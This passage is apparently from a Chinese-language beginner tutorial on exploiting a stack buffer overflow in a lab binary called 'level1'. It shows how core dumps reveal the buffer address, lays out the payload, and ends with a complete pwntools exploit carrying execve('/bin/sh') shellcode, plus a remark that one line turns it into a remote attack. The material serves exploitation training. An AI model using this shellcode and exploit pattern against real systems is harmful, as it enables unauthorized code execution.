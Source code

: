 这里我们使用一段最简单的执行`execve ("/bin/sh")`命令的语句作为shellcode。

溢出点有了，shellcode有了，下一步就是控制PC跳转到shellcode的地址上:

```
[shellcode][“AAAAAAAAAAAAAA”….][ret]
^------------------------------------------------|

```

对初学者来说这个shellcode地址的位置其实是一个坑。因为正常的思维是使用gdb调试目标程序，然后查看内存来确定shellcode的位置。但当你真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。怎么解决这个问题呢？

最简单的方法就是开启core dump这个功能。

```
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'

```

开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
$./level1 
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290:  "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335:  ""

```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为0xbffff290。

OK，现在溢出点，shellcode和返回值地址都有了，可以开始写exp了。写exp的话，我强烈推荐pwntools这个工具，因为它可以非常方便的做到本地调试和远程攻击的转换。本地测试成功后只需要简单的修改一条语句就可以马上进行远程攻击。

```
p = process('./level1')  #本地测试
p = remote('127.0.0.1',10001)  #远程攻击

```

最终本地测试代码如下：

```
#!/usr/bin/env python
from pwn import *

p = process('./level1') 
ret = 0xbffff290

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload
```